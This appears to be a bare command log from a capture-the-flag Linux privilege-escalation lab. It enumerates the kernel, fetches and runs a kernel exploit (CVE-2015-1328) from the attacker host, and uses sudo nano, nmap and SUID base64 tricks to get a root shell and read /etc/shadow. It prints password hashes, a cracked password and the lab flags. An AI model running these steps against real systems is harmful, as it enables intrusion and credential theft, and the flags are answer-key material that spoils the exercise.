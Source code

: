 ssh karen@10.10.171.207

hostname
wade7363

cat /proc/version
3.13.0-24-generic

cat /etc/issue
Ubuntu 14.04 LTS

python --version
Python 2.7.6

https://www.exploit-db.com/exploits/37292
CVE-2015-1328

gcc 37292.c -o ofc

sudo python3 -m http.server --bind 10.18.6.119 8080
cd tmp
wget http://10.18.6.119:8080/ofc

chmod +x ofc
ls -la

find / -type f -name '*flag2*.txt' 2>/dev/null
cat /home/matt/flag1.txt
THM-28392872729920

https://gtfobins.github.io/gtfobins/nano/#sudo
sudo nano
^R^X
reset; sh 1>&0 2>&0
id

find / -type f -name '*flag2*.txt' 2>/dev/null
cat /home/ubuntu/flag2.txt
THM-402028394

sudo nmap -interactive
cat /etc/shadow
$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1

cat /etc/passwd
gerryconway

find / -type f -perm -04000 -ls 2>/dev/null

LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/
Password1

find / -type f -name '*flag3*.txt' 2>/dev/null
LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
THM-3847834